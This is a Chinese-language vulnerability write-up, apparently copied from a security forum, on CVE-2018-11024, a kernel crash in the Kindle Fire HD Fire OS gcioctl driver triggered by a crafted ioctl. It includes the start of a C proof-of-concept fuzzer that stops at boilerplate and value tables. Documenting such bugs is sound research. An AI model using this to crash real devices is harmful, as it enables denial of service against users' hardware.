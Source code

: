 # （CVE-2018-11024）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3376](https://www.zhihuifly.com/t/topic/3376)

# （CVE-2018-11024）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞

## 一、漏洞简介

Amazon Kindle Fire HD（3rd）Fire OS 4.5.5.3的内核组件中的内核模块/omap/drivers/misc/gcx/gcioctl/gcif.c允许攻击者通过设备/ dev上ioctl的参数注入特制参数/ gcioctl使用命令1077435789并导致内核崩溃。

## 二、漏洞影响

Fire OS 4.5.5.3

## 三、复现过程

### poc

```
#include<stdio.h>
#include<string.h>	  //strlen
#include<sys/socket.h>
#include<arpa/inet.h> //inet_addr
#include<unistd.h>	  //write
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdbool.h>

// Socket boilerplate code taken from here: [http://www.binarytides.com/server-client-example-c-sockets-linux/](http://www.binarytides.com/server-client-example-c-sockets-linux/)

/*

seed, ioctl_id, num_mappings, num_blobs, dev_name_len, dev_name, map_entry_t_arr, blobs

*/

int debug = 1;

typedef struct {

int src_id;

int dst_id;

int offset;

} map_entry_t;

short tiny_vals[18] = {128, 127, 64, 63, 32, 31, 16, 15, 8, 7, 4, 3, 2, 1, 0, 256, 255, -1};

int *small_vals;

int num_small_vals;

// populates small_vals when called
```